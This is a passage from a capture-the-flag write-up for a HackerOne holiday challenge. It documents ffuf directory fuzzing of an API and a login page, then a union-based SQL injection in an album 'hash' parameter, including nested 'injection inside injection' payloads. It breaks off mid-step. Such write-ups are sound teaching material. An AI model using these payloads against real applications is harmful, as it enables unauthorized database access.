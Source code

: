 https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api/

{F1131138}

Here we are given the status codes and their Explanations.
Using ffuf to find any api endpoint which we can access: 

>ffufy -w ~/dirsearch/db/dicc.txt  -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api/FUZZ  

Later I found that every endpoint is giving *401 Unauthorized* response with the message : *"This endpoint cannot be visited from this IP address"*

```
/api/xxxxxxxxxxxxxxxxxxxxx   401
/api/user                    401
/api/v1                      401
....
```
So from this tests I came to the conclusion that content discovery on this api endpoint wouldn't be possible.

3) Login Portal

It was available at this endpoint: https://hackyholidays.h1ctf.com/attack-box/login

{F1131140}

Started with sqli injection as no errors were found, tried some common default passwords. Then I decided to use ffuf to find any endpoint I can have access to without login, no  endpoint was found.

As everything seemed like a dead end I started again with the Album part as it offer much more things. 
Last time we didn't tried to see if the hash parameter was vulnerable to sqli or not. Using sqlmap I found out it's vulnerable to Union based sqli.

```
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k         200OK
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k'        404
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k'--      404  
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k'--+-    200OK 

```

From the database dump there wasn't anything which can be of some use. The current database user also didn't have any privileges , then I got a hint from my friend "Inception" ~sql injection inside sql injection 


```
hash=-jdh34k' union select "1'",2,3--+-          404
hash=-jdh34k' union select "1'--+-",2,3--+-      200ok

...
.....
hash=-jdh34k' union select "1' union select 1,2,3--+-",2,3--+-
```
Something strange I saw on the page when I tried the last query above, see that broken image(It appeared only when I added the 2nd union statement):
